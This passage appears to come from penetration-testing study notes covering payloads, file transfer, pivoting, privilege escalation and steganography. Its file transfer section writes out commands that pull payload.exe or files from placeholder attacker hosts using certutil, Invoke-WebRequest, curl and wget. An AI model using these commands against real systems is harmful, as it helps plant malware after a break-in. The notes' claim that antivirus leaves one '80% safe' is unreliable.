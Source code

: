 ##### Prevention

- Payloads are one of Malwares, so the prevention methods are same with Malware Protection methods.
- REMEMBER: if you have strong antivirus software you are 80% safe.

### File Transfer

- File transfer techniques allow attackers to upload payloads or exfiltrate sensitive data during post-exploitation.
    - **File Transfering Server**: You can Start Python server and use it to download from it.
        - To start python: python3 -m http.server 9090
    - For Windows
        - **Invoke-WebRequest**: iwr -Uri "http://example.com/payload.exe" -OutFile "payload.exe"
        - **CertUtil**: certutil.exe -urlcache -split -f "http://example.com/payload.exe" payload.exe
    - For Linux
        - curl http://attacker_ip:8080/file --output file
        - wget http://attacker_ip:8080/file

![alt text](image-26.png)

### Pivoting

- Pivoting in penetration testing is a technique in which the ethical hackers—also known as white-hat hackers—simulating the attack can move from one system to another.
- There are so many ways to pivot from 1 system to another.

### Privilege Escalation

- privilege escalation attack is a cyberattack to gain illicit access of elevated rights, permissions, entitlements, or privileges beyond what is assigned for an identity, account, user, or machine.
- user to super-admin.

### Steganography

- **Steganography** is the practice of hiding a secret message inside of (or even on top of) something that is not secret. 
- That something can be just about anything you want. 
- These days, many examples of steganography involve embedding a secret piece of text inside of a picture, But also we can hide inside audio files and etc...
- There are many tools for this.
    - The famous on is **“steghide”**
